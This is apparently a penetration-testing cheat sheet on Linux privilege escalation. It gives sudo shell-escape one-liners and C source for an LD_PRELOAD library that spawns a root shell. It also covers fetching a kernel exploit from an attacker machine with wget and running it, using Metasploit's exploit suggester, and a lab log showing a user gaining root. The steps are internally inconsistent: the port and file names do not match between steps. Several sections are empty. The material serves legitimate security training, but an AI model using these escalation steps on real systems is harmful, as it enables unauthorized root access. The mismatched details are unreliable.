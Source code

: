 # Privilege escalation on Linux

## Attack tree

```text
2 Become root on Linux
    2.1 Find an exploit (software bug) in the operating system or other system services, for example a kernel exploit (OR)
        2.1.1 Detect vulnerabilities (AND)
        2.1.2 Develop or acquire exploit code (AND)
        2.1.3 Transfer the exploit to the target machine (AND)
        2.1.4 Execute the exploit on the target
    2.2 Find a misconfiguration in an existing legitimate tool, for example sudo
        2.2.1 Find which commands current user is allowed to use (sudo -l) (AND)
        2.2.2 Exploit the parameters of a command that is allowed to be executed with root permissions
            2.2.2.1 sudo find /etc/passwd -exec /bin/sh \; (OR)
            2.2.2.2 sudo vim -c '!sh' (OR)
            2.2.2.3 sudo awk 'BEGIN {system(“/bin/sh”)}' (OR)
            2.2.2.4 Other commands that are allowed to be executed with root permissions to invoke a shell
    2.3 Other privilege escalation
```

## Examples

### Kernel exploit CVE-2015-1328

For [CVE-2015-1328](https://ubuntu.com/security/CVE-2015-1328) exploit-db lists several possible exploits:

* [37292](https://www.exploit-db.com/exploits/37292)
* [37293](https://www.exploit-db.com/exploits/37293)
* [40688](https://www.exploit-db.com/exploits/40688) <= Metasploit, maybe there are other exploits too

#### Using 37292

1. Create a local file `37292.c` in the `/tmp/` directory and paste the code in the file
2. Start a local python http server: `python -m http.server 8080`
3. From the target machine: `wget http://<IP address attack machine>:8888/37292.c`
4. Compile on target machine: `gcc CVE-2015-1328.c -o 37292`
5. Make executable: `chmod +x 37292`
6. Check current user: `id`
7. Run the compiled exploit: `./exp`
8. Check current user: `id`

#### Using 40688

1. Upgrade existing shell (meterpreter, ssh, or a basic command shell) to `meterpreter` session

Open a new meterpreter session with:

```text
sessions -u <number>
```

Or upgrade the most recently opened session to meterpreter:

```text
sessions -u -1
```

2. Load the `local_exploit_suggester` module in `msfconsole`: 

```text
meterpreter> use post/multi/recon/local_exploit_suggester
```

3. Set the SESSION option for the module to the session ID of the meterpreter session, and `run`
4. Test the exploit modules recommended by `local_exploit_suggester`. The first few modules in the output usually 
have a higher chance of working successfully.
5. Load a module, set the module options and `exploit`
6. An exploit can fail for many reasons. If not works, try the next one or install missing components for it to run.

### Sudo exploits

#### LD_PRELOAD

`LD_PRELOAD` allows program to use/load shared libraries. If the `env_keep` option is enabled we can generate a 
shared library which will be loaded and executed before the program is run. The `LD_PRELOAD` option will be ignored 
if the real user ID is different from the effective user ID.

1. Check for `env_keep+=LD_PRELOAD` (using `sudo -l`)
2. Write a simple C code compiled as a share object (`.so` extension) file

```text
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Save as shell.c and compile:

    gcc -fPIC -shared -o shell.so shell.c -nostartfiles

Use this shared object file when launching any program the user can run with sudo.

3. Run the program with sudo rights and the `LD_PRELOAD` option pointing to the `.so` file

    sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

This will result in a shell spawn with root privileges.

#### Another find

Another [find in GTFObins](https://gtfobins.github.io/gtfobins/find/) for escalating privileges with `find`:

```text
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-1029-aws x86_64)
...
$ sudo -l
Matching Defaults entries for karen on ip-10-10-0-32:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-0-32:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

### SUID exploits

### Capabilities exploits

### Cron jobs exploits

### Path exploits

### NFS exploits

## Notes

* In horizontal privilege escalation an adversary expands privileges by taking over another account.
* In vertical privilege escalation an attacker attempts to gain more permissions or access with an existing compromised account.

### Kernel exploits

A failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of 
the penetration testing engagement before attempting a kernel exploit. 

Kernel exploit methodology:

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

You can transfer the exploit code from your machine to the target system using the SimpleHTTPServer Python module and 
wget respectively. 

### Sudo exploits

The `sudo` command, by default, allows for running a program with root privileges. System administrators sometimes 
give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap 
but would not be cleared for full root access. The system administrator can allow this user to only run Nmap with 
root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the `sudo -l` command.

Use GTFObins for gathering information on how any program, on which a user may have sudo rights, can be used. 

### SUID exploits

### Capabilities exploits

### Cron jobs exploits

### Path exploits

### NFS exploits

## Tools exploits

* [LinEnum](https://github.com/rebootuser/LinEnum)
* [PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) is a script that searches for possible paths to escalate privileges on Linux/Unix* hosts. It also enumerates the system.
* [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) returns a list of possible CVEs, exploits, and exploit POCs (Proof of Concept) for the running Linux kernel.
* [GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can used to bypass local security restrictions in misconfigured systems.
* [Traitor](https://github.com/liamg/traitor) takes advantage of local misconfigurations and vulnerabilities (including most of GTFOBins) in order to pop a root shell. These are primarily misconfigurations, not exploits.

## Resources

* [Linux post exploitation enumeration](cheatsheets:docs/enumeration/linux-post)
* [GTFObins](https://gtfobins.github.io/)